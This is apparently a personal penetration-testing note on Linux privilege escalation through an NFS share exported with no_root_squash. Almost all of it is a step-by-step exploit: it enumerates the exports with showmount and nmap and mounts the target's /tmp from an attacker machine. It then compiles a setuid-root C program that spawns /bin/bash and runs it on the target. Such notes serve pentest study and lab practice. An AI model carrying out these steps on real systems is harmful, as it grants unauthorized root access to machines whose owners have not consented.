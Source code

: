 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Mounting
Target:
```bash - target
cat /etc/exports
```

![[Pasted image 20221115140352.png]]

Notice how the /tmp directory is set to no_root_squash.

Kali:
```bash - kali
showmount -e $TARGET
```

![[Pasted image 20221110090529.png]]
Similar Nmap script:

```bash
nmap –sV –script=nfs-showmount $TARGET
```

```bash - kali
mkdir /tmp/mountme
```

```bash - kali
sudo mount -o rw,vers=2 $TARGET:/tmp /tmp/mountme
```

```bash - kali
ls /tmp/mountme
```

#### Root Squashing
```bash - kali
cd /tmp/mountme
```

```bash - kali
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > x.c
```

```bash - kali
sudo gcc x.c -o x
```

```bash - kali
sudo chmod +s x
```

Target:
```bash - target
cd /tmp
```

```bash - target
./x
```

![[Pasted image 20220220171150.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
